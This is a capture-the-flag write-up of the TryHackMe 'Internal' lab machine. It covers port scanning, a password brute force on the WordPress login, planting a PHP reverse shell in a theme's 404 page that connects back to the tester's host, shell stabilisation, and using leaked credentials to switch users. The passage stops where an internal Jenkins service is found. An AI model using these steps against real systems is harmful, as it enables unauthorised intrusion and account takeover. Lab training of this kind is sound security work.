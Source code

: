# Internal-Writeup
## Recon

Machine booted, let's see if it is up with some pings
```
ping 10.10.247.233                         
PING 10.10.247.233 (10.10.247.233) 56(84) bytes of data.
64 bytes from 10.10.247.233: icmp_seq=1 ttl=63 time=80.8 ms
64 bytes from 10.10.247.233: icmp_seq=2 ttl=63 time=81.8 ms
^C
--- 10.10.247.233 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 80.812/81.283/81.754/0.471 ms
```

Machine is up, let's do some basic port scan
`nmap -p- -O -A -sV 10.10.247.233`
Output:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   57.43 ms 10.8.0.1
2   57.51 ms internal.thm (10.10.247.233)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.97 seconds
```
Interesting. No more ports open besite http. This will be web based penetration testing.

## Web application recon
MANUAL:
- Index page is showing the default ubuntu-apache page. No significant html comments are made inside
- robots.txt sitemap.xml php.ini and more files give 404. There must be some directories that are hosting website outside /var/www/html so we will have to switch to automated method or brute forcing directories

AUTOMATED:
- Using dirbuster we brute forced directories on given server.
Results:
```
/phpmyadmin/ (shows login page of phpmyadmin, not outdated vulnerable version)
/blog/ (dirbuster detected some basic wordpress directories and files which confirms this is wordpress based website)
```

While looking at the index page of blog we only see basic page with twentyseventeen theme. 
Looking at source code we don't see anything crucial, we can see plugins, themes, some uploads but nothing crucial.
As I checked for robots.txt which returned 404 i remembered i should check for sitemap.xml which can give me informations about users and authors which i can later brute force on login if i don't find any vulnerable theme or plugin.
But sitemap.xml returned 404 so i ran my tool which enumerates authors and usernames through the archives and posts.
We got username `admin` which we will note for the case where we don't find any vulnerability.
For scanning vulnerabilities on wordpress websites we will use `WPscan` which is great enumeration and vulnerability scanning tool.
Unfortunately we found 39 vulnerabilities which are probably not intentionally left there so we will brute force login with same tool and we can get back to those CVEs later.

Using a `/usr/share/wordlists/rockyou.txt` wordlist we will attack the wp-login.php page which is located in `http://internal.thm/blog/wp-login.php`.
Bingo! `Valid Combinations Found: Username admin, Password my2boys`
We will use these given credentials to login on the admin panel
`admin:my2boys`

## Getting access
After successfully logging in the admin panel, we get prompted with question if we want to update the admin email or leave it as it is.
We will skip on this one because our goal is getting webshell or reverse shell.
For this purposes idea is to edit built-in pages with the malicious code which will execute under condition that we visit website.

So twentyseventeen is a theme. Themes got their own custom 404 page that will run when you visit non-existing page. So for a fact we know that we can modify that page which we will do.
Through the admin panel, we can see the side menu on left side which contains tab themes.
So the path is `Themes>>Theme editor>>404.php`

`https://github.com/pentestmonkey/php-reverse-shell`is great for these purposes as it can run as logic bomb when visited. You can download it, modify by just adding your ip address and port as following:
```
$ip = '10.8.22.53';  // CHANGE THIS TO YOUR IP
$port = 1234;       // CHANGE THIS TO WANTED PORT
```
And you can finally start your connection listener on all interfaces by running `nc -lvnp 1234` in your command line.
After pasting whole reverse shell code in the 404 template you can press `Publish` and visit the page with following url http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
Bingo! Reverse shell!
```
$ nc -lvnp 1234            
listening on [any] 1234 ...
connect to [10.8.22.53] from (UNKNOWN) [10.10.247.233] 54424
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:52:46 up  3:37,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We got access as `www-data`

## Internal recon
So we got the reverse shell which is unstable to use and which i don't recommend for holding onto on longer pentests. So we will stabilise it by running:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
Press ENTER
export TERM=xterm
```
This would make it more stable and better looking and even more useful.
By trying to visit `/home` directory we encounter `aubreanna` to which we do not have access to enter. So privilege escalation takes part here.
We are unable to run `sudo -l` but remember we are www-data. We can download and run linpeas and polkits and more if we don't find anything significant.

With enumerations script and techniques we did not find anything that would help us escalate privileges beside modern vulnerabilities that would be considered cheating as the machine is not intended to be used that way.
Linpeas-ng leads us to /opt directory with sensitive file containing credentials called wp-save.txt which content is this:
```
www-data@internal:/opt$ cat wp-save.txt
Bill,
Aubreanna needed these credentials for something later.  Let her know you have them and where they are.
aubreanna:bubb13guM!@#123
```
By running `su aubreanna` we are becoming that user!
Now we will go and examine home directory
```
aubreanna@internal:/opt$ cd ~
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
THM{int3rna1_fl4g_1}
aubreanna@internal:~$
```
Hmm but what is this `jenkins.txt` let's see.
```
aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```
Let's check if it is still running with netstat.
`tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     `
and yes, it is running.

